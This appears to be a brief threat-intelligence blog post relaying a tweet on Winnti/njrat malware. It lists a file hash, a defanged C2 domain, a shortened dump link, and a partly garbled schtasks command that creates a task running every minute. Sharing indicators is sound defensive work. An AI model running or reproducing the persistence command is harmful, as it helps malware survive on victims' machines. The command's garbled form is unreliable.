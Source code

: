 ```yaml
---
layout: post
title: @avman1995
date: 2018-07-24 03:00:21
tourl: www.baidu.com
tags: [Winnti]
---
```

#winnti #umbrella #njrat
05a7795c59d466863ebec5d65669918a
c2: fw2.sshreach[.]me

dump:
https://t.co/ZXxxGXMFLA

schtasks /create /sc minute /mo 1 /tn StUpdate /tr ???? https://t.co/Ad0Iuo9fZx